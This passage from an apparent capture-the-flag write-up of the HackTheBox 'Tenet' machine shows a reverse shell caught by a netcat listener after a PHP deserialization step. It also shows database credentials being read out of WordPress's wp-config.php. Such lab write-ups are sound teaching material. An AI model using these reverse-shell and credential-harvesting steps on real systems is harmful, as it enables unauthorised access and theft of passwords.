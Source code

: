 The `__destruct()` method will be executed twice as it successfully deserialised our input.

### Getting Initial Foothold

What we need to do now is to visit `10.10.10.223/shell.php` and the page will keep on loading as it sends the reverse shell to our local machine. Let's check the netcat listener that we set up earlier.

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.223] 38528
bash: cannot set terminal process group (1532): Inappropriate ioctl for device
bash: no job control in this shell
www-data@tenet:/var/www/html$
```

We managed to get access to the remote machine as `www-data`.

### Looking for credentials in Wordpress configuration file

Next, we need to look for configuration files. This is because configuration files often contain credentials, such as the database password, which might be re-used by the users for other logins. In this case, we know that wordpress is running on the web server. So, let's look for wordpress' configuration file.

A [simple google search](https://wordpress.org/support/article/editing-wp-config-php/) leads us to `wp-config.php`. Currently, we are inside `/var/www/html`, which contains the wordpress directory.

```
www-data@tenet:/var/www/html$ ls -la
# -- snip --
drwxr-xr-x 5 www-data www-data  4096 Jan  7 10:04 wordpress
www-data@tenet:/var/www/html$
```

Inside the wordpress directory, we can find the `wp-config.php` file.

```
www-data@tenet:/var/www/html$ cd wordpress && ls -la
# -- snip --
-rw-r--r--  1 www-data www-data  3185 Jan  7 10:04 wp-config.php
# -- snip --
```

Reading the file content, we found the following username and password.

```
www-data@tenet:/var/www/html/wordpress$ cat wp-config.php
# -- snip --
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
# -- snip --
```
